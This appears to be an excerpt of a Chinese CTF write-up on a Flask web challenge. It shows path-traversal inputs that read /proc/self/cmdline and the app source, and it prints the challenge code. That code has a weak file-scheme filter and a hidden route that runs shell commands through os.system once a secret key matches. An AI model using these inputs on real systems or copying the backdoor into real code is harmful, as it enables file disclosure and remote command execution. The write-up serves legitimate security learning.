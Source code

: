 这里直接把flag下载下来了...

后来看wp,可能是buu这里的环境有点问题,正常的流程应该是:

读取`/proc/self/cmdline`,获取启动当前环境的完整命令:

```
url=/proc/self/cmdline
url=../../../../../../proc/self/cmdline
内容:
python2 app.py 
```

读取`app.py`:  `page?url=app.py`

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip() # strip移除前后的空白字符
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"): # 这里url不能为file开头,这也解释了为什么一开始用file://不管用
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res

if __name__ == '__main__':
```